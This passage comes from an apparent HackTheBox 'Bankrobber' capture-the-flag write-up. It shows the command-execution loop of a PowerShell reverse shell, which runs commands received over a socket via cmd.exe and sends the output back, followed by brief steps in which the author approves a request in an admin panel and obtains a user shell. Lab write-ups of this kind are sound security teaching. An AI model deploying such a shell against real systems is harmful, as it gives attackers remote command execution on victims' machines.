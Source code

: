 	if(!$out.equals("exit")){
		$args = "";
		if($out.IndexOf(' ') -gt -1){
			$args = $out.substring($out.IndexOf(' ')+1);
			$out = $out.substring(0,$out.IndexOf(' '));
			if($args.split(' ').length -gt 1){
                $pinfo = New-Object System.Diagnostics.ProcessStartInfo
                $pinfo.FileName = "cmd.exe"
                $pinfo.RedirectStandardError = $true
                $pinfo.RedirectStandardOutput = $true
                $pinfo.UseShellExecute = $false
                $pinfo.Arguments = "/c $out $args"
                $p = New-Object System.Diagnostics.Process
                $p.StartInfo = $pinfo
                $p.Start() | Out-Null
                $p.WaitForExit()
                $stdout = $p.StandardOutput.ReadToEnd()
                $stderr = $p.StandardError.ReadToEnd()
                if ($p.ExitCode -ne 0) {
                    $res = $stderr
                } else {
                    $res = $stdout
                }
			}
			else{
				$res = (&"$out" "$args") | out-string;
			}
		}
		else{
			$res = (&"$out") | out-string;
		}
		if($res -ne $null){
        $writer.WriteLine($res)
    }
	}
}While (!$out.equals("exit"))
$writer.close();
$socket.close();
$stream.Dispose()
{% endhighlight %}

<p>Next we go back to the admin panel to approve our request.</p>

<p>
<img src="{{ '/assets/htb-bankrobber/user-backdoorchecker5.PNG' | relative_url }}">
</p>

<p>And finally we get our user shell!</p>

<p>
<img src="{{ '/assets/htb-bankrobber/user-shell.PNG' | relative_url }}">
</p>
